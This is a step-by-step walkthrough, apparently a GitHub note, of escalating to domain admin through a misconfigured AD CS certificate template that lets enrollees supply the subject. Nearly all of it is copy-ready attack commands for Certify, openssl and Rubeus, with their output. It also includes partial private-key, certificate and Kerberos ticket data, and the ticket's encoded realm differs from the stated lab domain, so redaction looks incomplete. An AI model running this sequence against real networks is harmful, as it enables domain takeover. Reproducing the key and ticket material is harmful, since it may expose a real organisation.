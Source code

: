 Thanks for great paper and tool : https://github.com/GhostPack/Certify

Simple explaination : 

There is multiple certificate templates in AD CS, some of them we have enrollment rights and some of them we dont. Also there is a flag  for "ENROLLEE_SUPPLIES_SUBJECT" which means when requesting a certificate, we can also define a alternate name for it. We will enroll a certificate and give alternate name as one of domain admin accounts and use this certificate to request a TGT 

First i will compile and run in memory as mentioned : https://github.com/GhostPack/Certify#sidenote-running-certify-through-powershell

Check vulnerable CA

	[Certify.Program]::Main("find /vulnerable".Split())
	
There is a vulnerable template

	CA Name                               : Valhalla-CA1.valhalla.local\valhalla-CA
	Template Name                         : ValhallaUser
	Schema Version                        : 2
	Validity Period                       : 1 year
	Renewal Period                        : 6 weeks
	msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
	mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
	Authorized Signatures Required        : 0
	pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
	mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
	Permissions
	Enrollment Permissions
	Enrollment Rights           : valhalla\Domain Admins        S-1-5-21-******-******-******-512
						valhalla\Domain Users         S-1-5-21-******-******-******-513
						valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
										  						
	Object Control Permissions
			Owner                       : 	valhalla\admin		         S-1-5-21-******-******-******-5747
			WriteOwner Principals       : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										  									valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
			WriteDacl Principals        : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										 									 valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
			WriteProperty Principals    : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										 									 valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
																			 
																			 

Enroll certificate with alternate name which is domain admin

	[Certify.Program]::Main("request /ca:Valhalla-CA1.valhalla.local\valhalla-CA /template:ValhallaUser /altname:superadmin".Split())

	[*] Action: Request a Certificates

	[*] Current user context    : valhalla\testuser
	[*] No subject name specified, using current context as subject.

	[*] Template                : ValhallaUser
	[*] Subject                 : ********
	[*] AltName                 : superadmin

	[*] Certificate Authority   : Valhalla-CA1.valhalla.local\valhalla-CA

	[*] CA Response             : The certificate had been issued.
	[*] Request ID              : 160811

	[*] cert.pem         :

	-----BEGIN RSA PRIVATE KEY-----
	MIIEowIBAAKCAQEAuynAtgBp0JC0nN7oCTl5bCz9/2dPjJx/LWG85DMOYRT5qAlA
	qQ4nNHkIFUwBXPG/BvrB57wTKYkDtoWyTEwJtHY93arS8bH0/PzUyCq4iuTIU/bY
	....................
	Tqau1wKBgB+BIL4QdsS4si1yRztYbXwGYHr2yNUBvgBJzw6sYVryvPV/u3QfCHHN
	+qIbvXmdwIWlc71uFAC7z76IVgzqnCJr4wc9UIPw5P0GYFpkWXPUWzNoMyCCwabD
	GdnlVgCJOVA8x9SaYu4kae/LlKdGAJtWgjI+utWrBQ1wJ4qSpDYZ
	-----END RSA PRIVATE KEY-----
	-----BEGIN CERTIFICATE-----
	MIIGlDCCBXygAwIBAgITOAACdCveKa2lX9NzAAAAAAJ0KzANBgkqhkiG9w0BAQUF
	ADBZMRIwEAYKCZImiZPyLGQBGRYCdHIxEzARBgoJkiaJk/IsZAEZFgNjb20xGDAW
	....................
	lnzIzVhjLAxmfPTJzkpMCWc2tGR4TPxcRM0dDjjq1pXxqx1zOefsfEE/4u5ga4b8
	IkXuWK6XVvv+LfD5wAy4Wu63MPJKD81gLTdCNr4U+4r7yTDmEMIT+3NOCd/o9lhg
	mVlHfB1DYpU=
	-----END CERTIFICATE-----


	[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



	Certify completed in 00:00:04.6491198
	
Save RSA KEY and Certificate to a file called "cert.pem" and convert it to cert.pfx

	openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
	

Ask TGT with cert.pfx

	.\Rubeus.exe asktgt /user:superadmin /certificate:c:\full\path\of\cert.pfx /domain:valhalla.local /ptt

	[*] Action: Ask TGT

	[*] Using PKINIT with etype rc4_hmac and subject: ********
	[*] Building AS-REQ (w/ PKINIT preauth) for: 'valhalla\superadmin'
	[+] TGT request successful!
	[*] base64(ticket.kirbi):

		  doIFwDCCBbygAwIBBaEDAgEWooIEzjCCBMphggTGMIIEwqADAgEFoREbD09ERUFCQU5LLkNPTS5UUqIk
		  MCKgAwIBAqEbMBkbBmtyYnRndBsPb2RlYWJhbmsuY29tLnRyo4IEgDCCBHygAwIBEqEDAgEFooIEbgSC
		  BGoPpDODKpEjKMJUK+MaYfrYP61rk+Ud/zXcXeFh6snXhXri6UWAFe7jav+eZ5VfvG+KwcH2cFnaX98Y
		  ......................
		  QUJBTksuQ09NLlRSohMwEaADAgEBoQowCBsGYXQuY2FuowcDBQBA4QAApREYDzIwMjExMTE5MDY1NzU0
		  WqYRGA8yMDIxMTExOTE2NTc1NFqnERgPMjAyMTExMjYwNjU3NTRaqBEbD09ERUFCQU5LLkNPTS5UUqkk
		  MCKgAwIBAqEbMBkbBmtyYnRndBsPb2RlYWJhbmsuY29tLnRy

	  ServiceName           :  krbtgt/valhalla.local
	  ServiceRealm          :  valhalla.local
	  UserName              :  superadmin
	  UserRealm             :  valhalla.local
	  StartTime             :  
	  EndTime               :  
	  RenewTill             :  
	  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
	  KeyType               :  rc4_hmac
	  Base64(key)           :  